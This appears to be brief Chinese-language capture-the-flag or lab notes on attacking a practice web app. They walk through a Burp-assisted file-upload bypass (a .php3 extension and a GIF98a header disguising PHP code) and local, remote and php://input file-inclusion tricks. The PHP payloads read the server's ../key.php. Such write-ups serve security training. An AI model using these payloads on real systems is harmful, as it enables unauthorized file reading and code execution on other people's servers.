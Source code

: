 3.burp--proxy--http history:post  右键--send to repeater:

修改两个地方：uu.php3

图片末尾插入Php读文件代码：

\*必记

&lt;?php readfile\("../key.php"\);?&gt;

&lt;?php echo file\_get\_contents\("../key.php"\);?&gt;

4.点击go:

5.访问上传文件：http://172.16.12.100:82/vulnerabilities/uu.php3

右键--查年源码：

yi.jpg:

GIF98a

&lt;?php readfile\("../key.php"\);?&gt;

第三题：文件包含：php 90secfirfox:

include

require

本地包含：a.txt &lt;?php phpinfo\(\);?&gt;

第一种解法：远程包含：http://172.16.12.100:82/vulnerabilities/yi.jpg

参数file=http://172.16.12.100:82/vulnerabilities/yi.jpg

右键--查源码

第二种解法：

file=php://input

post data:勾上

&lt;?php readfile\("../key.php"\);?&gt;

&lt;?php echo file\_get\_contents\("../key.php"\);?&gt;

点击执行：

右键--查源码





